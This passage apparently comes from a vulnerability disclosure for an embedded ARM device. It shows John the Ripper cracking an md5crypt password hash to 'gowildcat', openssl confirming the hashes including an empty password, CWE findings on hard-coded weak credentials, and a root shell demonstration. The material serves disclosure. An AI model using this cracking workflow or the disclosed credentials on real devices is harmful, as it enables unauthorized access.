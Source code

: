 ```
root@devbox:~# john --wordlist=/root/superduperwordlist.txt hashes.txt --fork=4
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
1 0g 0:00:00:01 0.81% (ETA: 10:04:22) 0g/s 17494p/s 17494c/s 17494C/s p2ssw0rd..olivia17
2 0g 0:00:00:01 0.88% (ETA: 10:04:12) 0g/s 19261p/s 19261c/s 19261C/s daryan..danceislife
3 0g 0:00:00:01 0.81% (ETA: 10:04:23) 0g/s 17534p/s 17534c/s 17534C/s pumas13..presentation
4 0g 0:00:00:01 0.85% (ETA: 10:04:16) 0g/s 18547p/s 18547c/s 18547C/s yeboah..xanax
[...]
1 0g 0:00:00:25 11.27% (ETA: 10:06:00) 0g/s 17224p/s 17224c/s 17224C/s fujie2..fugly!
4 0g 0:00:00:25 11.47% (ETA: 10:05:56) 0g/s 17527p/s 17527c/s 17527C/s esteban25..estarr
2 0g 0:00:00:25 11.85% (ETA: 10:05:49) 0g/s 18083p/s 18083c/s 18083C/s daruiesteiubire..dartface1
3 0g 0:00:00:25 11.52% (ETA: 10:05:56) 0g/s 17585p/s 17585c/s 17585C/s emmaann05..emma57]
gowildcat        (?)
4 1g 0:00:01:46 DONE 0.009393g/s 18326p/s 18326c/s 18326C/s gowkil..gowildcat
2 0g 0:00:01:46 DONE 0g/s 18491p/s 18491c/s 18491C/s gingaom..ginga65
1 0g 0:00:01:46 DONE 0g/s 18372p/s 18372c/s 18372C/s golf130..golf094335722
3 0g 0:00:01:46 DONE 0g/s 18476p/s 18476c/s 18476C/s girlforyou17..girley15222
Waiting for 3 children to terminate
Session completed

root@devbox:~# john --show hashes.txt 
?:gowildcat

1 password hash cracked, 0 left
```

Confirming the hash values and their corresponding passphrases is simple with `openssl`:

```
root@devbox:~# openssl passwd -1 -salt PgsbqHqA ''
$1$PgsbqHqA$BSOGj3agdpDNoKpTo61js1

root@devbox:~# openssl passwd -1 -salt c0wcEMaV gowildcat
$1$c0wcEMaV$EXNHkbZYMAkcM5MdwZgB9/
```

Observable Weaknesses:
* CWE-284: Improper Access Control
* CWE-522: Insufficiently Protected Credentials
* CWE-798: Use of Hard-coded Credentials
* CWE-1391: Use of Weak Credentials

##### Testing commands as root: success

To confirm the findings, privileged commands were tested as a demonstration of root shell access.

```
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /proc/cpuinfo
Processor       : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 159.12
Features        : swp half fastmult edsp java 
CPU implementer : 0x41
CPU architecture: 5TE
CPU variant     : 0x1
CPU part        : 0x926
CPU revision    : 5

Hardware        : Marvell FFxAV
Revision        : 0000
Serial          : 0000000000000000

```